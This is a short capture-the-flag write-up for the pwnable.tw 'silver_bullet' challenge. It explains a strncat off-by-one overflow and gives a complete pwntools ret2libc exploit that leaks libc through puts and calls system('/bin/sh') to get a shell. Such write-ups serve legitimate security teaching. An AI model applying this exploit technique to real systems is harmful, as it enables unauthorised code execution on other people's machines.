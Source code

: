# 32 bit ret2libc - silver_bullet

```python
struct bullet {
    char[48] description;
    uint power;
}
```

- We have to overflow the description and then make the power big to defeat the werewolf.

## Issue:

```python
strncat((char *)bullet,input_buf,0x30 - bullet->power);
```

- strncat will concatenate n+1 bytes including the null character.
- So give 48 bytes(max length) and make it overflow to the power variable. We can write more on the stack. Since this is 32 bit arch we can give all the return address and its parameters in the stack.

### Ret2libc:

- call puts@plt with puts@got so that we can leak a libc function(puts).
- Now we calculate the libc address and find out the address of /bin/sh and system() and then call system with “/bin/sh” as argument.

## Exploit:

```python
from pwn import *

elf = ELF('./silver_bullet')
libc = ELF('./libc_32.so.6')

context.binary = elf

r = remote('chall.pwnable.tw', 10103)

def skip_menu():
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')

def create_bullet(d):
    r.recvuntil(' :')
    r.write('1')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()

def power_up(d):
    r.recvuntil(' :')
    r.write('2')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()

def beat():
    r.recvuntil(' :')
    r.write('3')

rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('main')

print(rop.dump())

create_bullet('A' * 0x2F)
power_up('A')
power_up('A' * 7 + str(rop))

beat()
skip_menu()
beat()

r.recvuntil('!!\x0a')
ADDR_PUTS = u32(r.recv(4))

LIBC_BASE = ADDR_PUTS - libc.symbols['puts']
ADDR_BINSH = libc.search('/bin/sh').next() + LIBC_BASE
ADDR_SYSTEM = libc.symbols['system'] + LIBC_BASE

log.info('puts address: ' + hex(ADDR_PUTS))
log.info('Libc base address: ' + hex(LIBC_BASE))
log.info('System address: ' + hex(ADDR_SYSTEM))
log.info('`/bin/sh` address: ' + hex(ADDR_BINSH))

rop = ROP(elf)
rop.call(ADDR_SYSTEM, [ADDR_BINSH])

create_bullet('A' * 0x2F)
power_up('A')

power_up('A' * 7 + str(rop))

print(rop.dump())

beat()
skip_menu()
beat()

r.interactive()
```